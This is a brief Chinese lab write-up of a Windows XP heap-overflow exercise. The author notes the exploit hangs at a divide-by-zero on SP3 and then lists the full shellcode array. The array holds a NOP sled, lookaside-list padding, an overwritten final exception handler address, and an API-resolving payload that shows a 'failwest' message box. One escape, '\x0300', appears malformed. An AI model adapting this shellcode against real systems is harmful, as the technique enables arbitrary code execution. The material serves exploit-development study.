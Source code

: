 这里还是和上一个实验一样在除0的地方卡住了，可能是操作系统的问题吧，作者用的是sp2，我这个是sp3。

完整的shellcode

	char shellcode []=

	"\xEB\x40\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//

	"\x0300\x03\x00\x5C\x01\x08\x99" //快表结构填充，防止错误

	"\xE4\xFF\x12\x00" //最终异常处理函数

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//

	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"//

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"

	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"

	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"

	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"

	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"

	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"

	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"

	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"

	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"

	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"

	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"

	;
